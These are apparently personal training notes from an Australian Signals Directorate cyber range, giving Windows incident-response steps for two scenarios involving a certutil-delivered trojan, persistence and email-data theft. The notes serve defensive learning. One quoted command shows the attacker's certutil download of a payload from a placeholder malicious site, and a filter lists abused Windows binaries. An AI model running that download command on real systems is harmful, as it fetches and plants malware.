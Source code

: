 <!--
Title: ASD Live Fire Exchange Programme (GitHub Markdown Version)
Author: Simon .I
Version: 2025.03.30
Description: GitHub-compatible Markdown (GHM) version using supported HTML like <details> and <table>.
-->

<!-- ASD Programme Title -->
<h1 align="center"><strong style="font-size: 4.5rem; letter-spacing: 4px; color: navy;">Australian Signals Directorate - Live Fire Exchange Program</strong></h1>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

---

<details>

<summary><strong>🌐 LFE 1 Bangalore – Email Dumper</strong></summary>

### 🔎 Scenario: Email Dumper

A suspicious activity alert has been triggered on a Windows host. The attacker has used native Windows tools to execute commands, download malware, and maintain persistence. Your job is to investigate the host, identify the point of compromise, and clean up the system.

---

### 🧱 Step 1: Initial Investigation – Identify Suspicious Activity

Use the Task Manager or command line to inspect running processes:

```powershell
taskmgr
```

List all active processes and filter for potentially malicious ones:

```powershell
tasklist | findstr /i "powershell cmd certutil"
```

Kill any suspicious processes:

```powershell
taskkill /F /PID <PID>
```

---

### 📜 Step 2: Event Log Analysis

Open Event Viewer to check for recent process creation:

```powershell
eventvwr
```

Navigate to:

```
Windows Logs > Security > Event ID 4688 (Process Creation)
```

> Look for:
> - `powershell.exe -enc ...`
> - `certutil.exe` downloads
> - Unusual command-line arguments

---

### 🧪 Step 3: Certutil Download Detection

Attacker used `certutil` to download a payload:

```powershell
certutil -urlcache -split -f http://<malicious-site>/agent.exe agent.exe
```

> This file may reside in:
> ```
> C:\Users\<user>\AppData\Roaming\
> ```

Check file creation or access timestamps.

---

### 🔍 Step 4: Obfuscated PowerShell Detection

A base64-encoded PowerShell command was used. Detect or decode:

Example execution pattern:

```powershell
powershell.exe -enc <Base64String>
```

Decode it:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<Base64String>"))
```

---

### 🗓 Step 5: Check for Persistence – Scheduled Tasks

Check for new or suspicious scheduled tasks:

```powershell
schtasks /query /fo LIST /v
```

Look for task names that launch unknown `.exe` or PowerShell commands.

---

### 🧼 Step 6: Check for Persistence – Registry

Check the following registry keys for auto-run entries:

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

Also check with GUI:

```powershell
regedit
```

---

### 🌐 Step 7: Check Network Connections

List active network connections to identify C2 callbacks:

```powershell
netstat -bano
```

> Cross-reference PIDs with `tasklist` output.

---

### 📁 Step 8: Investigate Dropped Files

Search user folders for suspicious payloads or dumped data:

```powershell
Get-ChildItem -Path C:\Users -Include *.exe,*.pst,*.ost -File -Recurse -ErrorAction SilentlyContinue
```

> `.pst` or `.ost` files may indicate email exfiltration or enumeration.

---

### ✅ Step 9: Remediation

Kill known malicious processes:

```powershell
taskkill /F /PID <PID>
```

Delete downloaded malware:

```powershell
Remove-Item -Path "C:\Users\<user>\AppData\Roaming\agent.exe" -Force
```

Delete registry persistence:

```powershell
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <MaliciousEntry> /f
```

Remove scheduled tasks:

```powershell
Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

---

### 🧠 Key Takeaways

- `certutil.exe` is often abused to download payloads (LOLBAS technique)
- Base64-encoded PowerShell is a common method for obfuscating payload execution
- Persistence often involves scheduled tasks or registry keys
- Email data (.pst/.ost) can be targeted for theft
- Always check process lineage, network connections, and event logs when investigating alerts

</details>

---

<details>

<summary><strong>🌋 LFE 2 Jakarta – Killer Trojan</strong></summary>

### 🔎 Scenario: Killer Trojan

This scenario involves investigating a Windows endpoint compromised by a malicious Trojan. The attacker has established persistence, dropped a payload, and may be attempting to access sensitive data or communicate externally. Your job is to investigate the incident, locate the malware, and remediate the system.

---

### 🧱 Step 1: Identify Suspicious Processes

Start by reviewing the running processes via Task Manager or command line:

```powershell
taskmgr
```

Or list suspicious processes from the terminal:

```powershell
tasklist | findstr /i "powershell cmd python wscript cscript rundll32 regsvr32 mshta"
```

Kill any untrusted or abnormal processes:

```powershell
taskkill /F /PID <PID>
```

---

### 📜 Step 2: Analyse Process Creation Events

Open Event Viewer:

```powershell
eventvwr
```

Navigate to:

```
Windows Logs > Security > Event ID 4688
```

> Look for evidence of:
> - `powershell.exe` with `-enc`
> - `.exe` files executed from unusual directories (e.g. Roaming, Temp)
> - `cmd.exe /c` launching suspicious commands

---

### 🧪 Step 3: Locate Dropped Trojan Binary

The malicious executable (e.g. `agent.exe`) is often dropped in a roaming or temporary path:

```powershell
Get-ChildItem -Path "C:\Users" -Include agent.exe -Recurse -ErrorAction SilentlyContinue
```

> Common drop paths include:
> ```
> C:\Users\<user>\AppData\Roaming\
> C:\Users\<user>\AppData\Local\Temp\
> ```

---

### 🧼 Step 4: Check for Registry Persistence

Query auto-run registry keys:

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

Use Registry Editor for deeper inspection:

```powershell
regedit
```

> Look for values that point to `agent.exe` or other unknown executables.

---

### 🗓 Step 5: Inspect Scheduled Tasks

Check for any unknown tasks created to relaunch the trojan:

```powershell
schtasks /query /fo LIST /v
```

> Suspicious tasks may have:
> - Non-standard names
> - Hidden in non-Microsoft folders
> - Actions pointing to `agent.exe` or PowerShell launchers

---

### 🌐 Step 6: Investigate Network Connections

List all active network connections with process mappings:

```powershell
netstat -bano
```

> Cross-reference process IDs with `tasklist` output to determine which executable is making outbound connections.

---

### 🗃 Step 7: Review File Artefacts and Email Dump Attempts

Search for email-related file dumps or exfil attempts:

```powershell
Get-ChildItem -Path "C:\Users" -Include *.pst, *.ost -File -Recurse -ErrorAction SilentlyContinue
```

> Trojan may be designed to steal or stage Outlook mail data.

---

### 🧹 Step 8: Remediate Infection

Terminate known malicious processes:

```powershell
taskkill /F /PID <PID>
```

Delete the malicious file:

```powershell
Remove-Item -Path "C:\Users\<user>\AppData\Roaming\agent.exe" -Force
```

Remove auto-run registry entries:

```powershell
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <MaliciousEntry> /f
```

Delete suspicious scheduled tasks:

```powershell
Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

---

### ✅ Key Takeaways

- The Trojan was delivered and executed via native tools (e.g. PowerShell or certutil)
- The payload (`agent.exe`) was dropped into a user-writable location like AppData
- Persistence was achieved via registry keys and possibly scheduled tasks
- The Trojan may target sensitive files such as Outlook `.pst` or `.ost` archives
- Comprehensive log and process analysis is key to confirming and removing the infection

</details>

---
